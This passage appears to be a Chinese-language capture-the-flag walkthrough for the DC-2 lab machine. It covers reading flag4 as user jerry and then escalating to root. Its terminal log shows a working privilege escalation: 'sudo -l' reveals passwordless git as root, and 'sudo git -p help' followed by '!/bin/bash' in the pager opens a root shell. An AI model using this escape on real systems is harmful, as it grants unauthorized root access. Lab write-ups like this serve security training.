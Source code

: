 ![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWNJUk7b6deYToSVKRcmciafWInibx5pYcDI13LmzaoIpOEPZxiaZ9LXhlzBtAbgMjhBJV1rvvR38I9w/640?wx_fmt=png)

**获取 flag4**

切换到 Jerry 用户

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWNJUk7b6deYToSVKRcmciafm6tmZBOugaLIo4X9YcEIFtFb8TdXhDGguZQdGumGuDhcibtgKsOtygQ/640?wx_fmt=png)

切换到 jerry，去查看 Jerry 目录下的文件，发现有个 flag4.txt 文件，并用过 cat 命令查看；

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWNJUk7b6deYToSVKRcmciaficGUicrJsGPvx5iaBZwErWkyicgAC2ecNN3YZTnDCp2GTEd6BFVdRuEx2w/640?wx_fmt=png)

**获取 flag5**

根据 flag4 提示还不是最终的 flag，提示 git，查看 sudo 配置文件，发现 git 是 root 不用密码可以运行，搜索 git 提权

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWNJUk7b6deYToSVKRcmciafXD7mH6xrtCXlWZ9cyTaHcjQkBPEV9YjDNhibibzyCibI6MBQeznpmT2KQ/640?wx_fmt=png)

进行提权，提权成功；  
使用 sudo git -p help 且一页不能显示完，  
在最底下面输入 !/bin/bash，  
最后完成提权。

```
jerry@DC-2:~$ sudo -l
Matching Defaults entries for jerry on DC-2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jerry may run the following commands on DC-2:
    (root) NOPASSWD: /usr/bin/git
jerry@DC-2:~$ sudo git -p help
usage: git [--version] [--help] [-C <path>] [-c name=value]
           [--exec-path[=<path>]] [--html-path] [--man-path] [--info-path]
           [-p|--paginate|--no-pager] [--no-replace-objects] [--bare]
           [--git-dir=<path>] [--work-tree=<path>] [--namespace=<name>]
           <command> [<args>]

The most commonly used git commands are:
   add        Add file contents to the index
   bisect     Find by binary search the change that introduced a bug
   branch     List, create, or delete branches
   checkout   Checkout a branch or paths to the working tree
   clone      Clone a repository into a new directory
   commit     Record changes to the repository
   diff       Show changes between commits, commit and working tree, etc
   fetch      Download objects and refs from another repository
   grep       Print lines matching a pattern
   init       Create an empty Git repository or reinitialize an existing one
   log        Show commit logs
   merge      Join two or more development histories together
   mv         Move or rename a file, a directory, or a symlink
   pull       Fetch from and integrate with another repository or a local branch
   push       Update remote refs along with associated objects
   rebase     Forward-port local commits to the updated upstream head
   reset      Reset current HEAD to the specified state
   rm         Remove files from the working tree and from the index
   show       Show various types of objects
   status     Show the working tree status
   tag        Create, list, delete or verify a tag object signed with GPG

'git help -a' and 'git help -g' lists available subcommands and some
!/bin/bash
root@DC-2:/home/jerry# whoami
root
root@DC-2:/home/jerry#
```
